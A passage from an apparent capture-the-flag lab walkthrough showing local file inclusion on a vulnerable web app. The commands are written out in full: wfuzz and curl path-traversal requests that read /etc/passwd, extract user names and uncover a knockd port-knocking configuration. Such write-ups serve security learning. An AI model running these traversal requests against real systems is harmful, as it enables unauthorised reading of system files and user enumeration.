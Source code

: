 ```bash
wfuzz -b 'PHPSESSID=doh59s4eqqdctapcs3ui5gapjd' --hw 100 -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://$IP/manage.php?FUZZ=../../../../../../../../etc/passwd"``
```



<figure><img src="../../.gitbook/assets/Pasted image 20231102192952.png" alt=""><figcaption></figcaption></figure>

We obtain the list of users,

```bash
curl -X GET 'http://192.168.0.114/manage.php?file=../../../../../../../../etc/passwd' -b "PHPSESSID=doh59s4eqqdctapcs3ui5gapjd" | grep bash | awk -F':' '{split($5, name, " "); print name[1]}'
```

````
```txt
root
Mary
Julie
Fred
Barney
Tom
Jerry
Wilma
Betty
Chandler
Joey
Rachel
Ross
Monica
Phoebe
Scooter
Donald
Scott
````

Trying different interesting [Linux files](https://github.com/0xsyr0/OSCP#local-file-inclusion-lfi) we find _/etc/knockd.conf_. Knockd is a port-knocking daemon that allows users to open network ports on a server by sending a sequence of connection attempts (knocks) to specific ports in a specific order.

```bash
wfuzz -b 'PHPSESSID=doh59s4eqqdctapcs3ui5gapjd' --hw 100 -c -w linuxLFI.txt "http://$IP/manage.php?file=../../../../../../../../FUZZ"
```

```bash
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```
